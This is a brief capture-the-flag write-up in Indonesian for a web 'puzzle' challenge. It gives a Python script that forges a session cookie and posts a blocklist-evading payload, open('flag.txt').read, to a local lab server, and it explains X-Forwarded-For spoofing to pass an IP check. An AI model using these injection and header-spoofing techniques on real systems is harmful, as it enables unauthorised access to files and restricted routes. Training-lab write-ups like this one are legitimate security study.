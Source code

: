 ## Manual Via burp

## Script
import requests

url = "http://172.17.0.1:1778/puzzle"

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": "session=eyJjYW5fc29sdmVfcHV6emxlIjp0cnVlfQ.Zs_Qhg._iluX_9mydxmOAzRKY5bwVho4nw"
}

data = {
    "solution": "open('flag.txt').read"
}

response = requests.post(url, headers=headers, data=data)

print(f"Status Code: {response.status_code}")
print(f"Response Text: {response.text}")

## Penjelasan
ini cukup simple, X-Forwarded-For agar ke IP 182.168.1.1, kemudian untuk dapat flag ada di route /puzzle dan dengan method POST, jadi kita ubah kesana ( bisa dengan burp ), kemudian kita baca apa saja yg di blaclist dari sana kita bisa dengan open dan read karena tidak di blaclist.
Jangan lupa method request nya content type nya harus application/x-www-form-urlencoded agar bisa dapat data